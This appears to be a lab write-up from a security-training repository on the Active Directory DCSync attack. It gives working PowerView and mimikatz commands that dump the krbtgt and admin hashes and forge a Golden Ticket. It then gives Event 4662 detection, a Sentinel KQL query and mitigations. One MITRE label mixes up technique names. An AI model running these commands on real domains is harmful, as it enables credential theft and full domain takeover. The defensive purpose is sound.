 # Attack Scenario: DC Sync Attack (DCSync)
The DC Sync attack simulates a rogue Domain Controller by abusing Directory Replication permissions. An attacker with sufficient rights can extract password hashes for any user — including krbtgt — from Active Directory, enabling Golden Ticket forgery and full domain compromise.

MITRE ATT&CK Techniques:

T1003.006 – LSASS Memory: DCSync

T1003.003 – NTDS.dit Extraction

T1558.001 – Golden Ticket

## Lab Environment
- **Domain Controller:** dc01.internal.lab
- **Attacker-controlled system:** attacker-vm
- **Privileged account (compromised):** svc-repl with Replicating Directory Changes permissions
- **Target account:** krbtgt, admin.internal.lab

Preconditions:

- svc-repl has Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Secrets rights on the domain root

## Objectives
- Enumerate accounts with replication rights
- Use svc-repl credentials to perform DCSync
- Extract password hashes for high-value targets
- Optionally forge a Golden Ticket using krbtgt hash

## Execution Steps
### 1. Discover Accounts with Replication Rights
Use PowerView:

```Get-ObjectAcl -SamAccountName "internal.lab" -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "Replicating" }```

Look for accounts with:

Replicating Directory Changes

Replicating Directory Changes All

Replicating Directory Secrets

### 2. Perform the DCSync
Use mimikatz on attacker host:

```lsadump::dcsync /domain:internal.lab /user:krbtgt```

Can also target specific users:

```lsadump::dcsync /domain:internal.lab /user:admin.internal.lab```
### 3. (Optional) Golden Ticket Attack
Use mimikatz to forge:

```kerberos::golden /user:Administrator /domain:internal.lab /sid:S-1-5-21-xxxxxx /krbtgt:<NTLM HASH> /ptt```

Confirm elevated access:

```dir \\dc01.internal.lab\C$```

## Detection Guidance
Logs and Sources
Event ID 4662 with DS-Replication-Get-Changes, Get-Changes-All, Get-Changes-Secrets

Defender for Identity Alert: "Replication of directory services detected from non-DC host"

Mimikatz strings in memory or command line: 
```lsadump::dcsync```

KQL Example – Microsoft Sentinel
```
SecurityEvent
| where EventID == 4662
| where ObjectType in (
    "DS-Replication-Get-Changes", 
    "DS-Replication-Get-Changes-All", 
    "DS-Replication-Get-Changes-Secrets"
)
| summarize count() by Account, Computer, bin(TimeGenerated, 1h)
| where count_ > 5
```
## Mitigations
Limit accounts with replication rights (use dedicated gMSA for backups)

Use tiered administration; avoid dual-purpose accounts

Monitor 4662 and abnormal LDAP behavior from non-DC hosts

Alert on usage of lsadump::dcsync, replication APIs, or unusual NTLM requests

## References
https://adsecurity.org/?p=1729

https://github.com/gentilkiwi/mimikatz

https://attack.mitre.org/techniques/T1003/006/

## Navigation
← [Back to Lab Index](../README.md)
→ [Related: Golden Ticket](./kerberos/golden-ticket.md)


